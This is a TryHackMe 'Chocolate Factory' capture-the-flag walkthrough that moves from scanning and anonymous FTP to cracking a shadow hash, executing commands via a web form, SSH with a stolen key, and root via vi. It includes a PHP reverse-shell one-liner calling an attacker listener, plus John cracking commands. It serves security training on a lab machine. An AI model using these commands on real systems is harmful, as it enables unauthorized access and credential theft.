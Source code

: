 TryHackMe <br>
Chocolate Factory
---
Here’s the initial `nmap` scan with some good information. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/05e0541b-eee5-4a8e-b16b-2ba66987fda9)

I tried a few scans with Gobuster, but didn’t return too much. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/57286467-5f52-4c08-a2a1-f313a02cecef)

The next thing I was going to do is check the FTP server since anonymous login was enabled. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/d84dd4a2-68ff-403f-8ca5-153213770825)

I used `wget` to download that image and proceeded to use `stegseek` to crack the password if it had one. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/d0121ec4-78aa-4a26-9fcf-6781905c6cb5)

The output of the file is base 64 encoded so I decoded it, put that in a new file and opened that file. <br>
```
base64 –decode output.txt >> output2.txt | cat output2.txt
```
Inside looked like the <i>/etc/shadow</i> contents. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/0765cf7e-9236-47e0-bf0f-59e348f59340)

It’s now time to try to crack that hash with `John`. <br>
```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt output2.txt
```
Bingo-bango! <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/b14110e3-1a8b-406b-b965-fea8cd536c87)

I tried to SSH with the found credentials but no luck, however, they did get me in to the website. <br>
Once logged in the website, at the <i>/home.php</i> page, there’s a text box that can execute commands. <br>
There were a few files in the directory I was in. One was “key_rev_key”. <br>
I was able to open it and there was a lot of jumbled text so I decided to use `strings`. <br>
That simplified things and showed the “key” <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/1a12dc38-f5b3-4b43-8ae2-84b9c6b1180b)

<b>*<i>NOTE: there was another way to do this by using a reverse shell for easier maneuvering around the file system</i>*</b> <br>
Reverse shell to make it easier to navigate. (I used a reverse shell cheat sheet) <br>
I had `netcat` open on my attack machine with a listener set up that was in place of <b>ip-address</b> and <b>port</b> <br>
```
php -r '$sock=fsockopen("ip-address",port);exec("/bin/sh -i <&3 >&3 2>&3");'
```
Another way I found to get files was by setting up a python server from the command box on the web page. <br>
From my attack machine I was able to download a few files of interest. <br>
One was in the directory of <i>Charlie</i>. The file was named <b>teleport</b> which ended up being charlie’s key to ssh into the machine. <br>
Since the password from earlier didn’t work, I used the file and changed permissions to `400` because I ran into permissions issues using SSH at first. <br>
```
sudo chmod 400 teleport
ssh charlie@<target_IP> -i teleport
```
Success! <br>
This is what Charlie can run as root: <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/9645a7ee-8326-4a69-b644-72f538ecb9bd)

I could also finally read the <b>user.txt</b> file. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/872a21aa-af37-4868-ac6d-eb6f11e592ed)

I had to do some research and good ol’ Google helped me out again with exploiting `vi`. <br>
`Vi` let’s you run commands, hence the `-c`. <br>
Here we can finally open the <i>user.txt</i> file and read the flag. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/99859943-147e-4ab6-ab70-fc318d561968)

As root user, in the root directory there was a python file. <br>
After trying to execute it I was prompted for the key, which I thought was the one from earlier. <br>
Then we get the confirmation it was correct and the final flag. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/8b215b95-4250-47c3-b7e6-f34350f56558)
















